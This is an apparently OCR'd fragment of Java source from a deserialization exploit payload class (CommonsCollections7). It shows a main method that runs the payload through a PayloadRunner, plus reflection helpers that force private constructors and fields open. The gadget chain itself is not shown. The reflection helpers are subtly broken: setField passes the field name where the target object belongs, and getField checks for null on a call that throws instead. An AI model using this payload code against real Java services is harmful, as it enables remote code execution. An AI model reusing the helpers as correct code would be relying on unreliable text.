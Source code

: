	public static void main(final String[] args) throws Exception {
	PayloadRunner.run(CommonsCollections7.class, args);
	}
	
	public static boolean isApplicableJavaVersion() {
	return JavaVersion.isAnnInvHUniversalMethodImpl();
	}
	
	public static Constructor getFirstCtor(final String name)
	throws Exception {
	final Constructor<?> ctor = Class.forName(name)
	.getDeclaredConstructors()[0];
	ctor.setAccessible(true);
	return ctor;
	}
	
	public static Field getField(Class<?> clazz, String fieldName) throws NoSuchFieldException {
	Field field = clazz.getDeclaredField(fieldName);
	if (field != null)
	field.setAccessible(true);
	else if (clazz.getSuperclass() != null)
	field = getField(clazz.getSuperclass(), fieldName);
	field.setAccessible(true);
	return field;
	}
	
	public static void setField(Object object, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
	Field field = getField(object.getClass(), fieldName);
	field.set(fieldName, value);
	}
	
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/29737134.jpg)
		
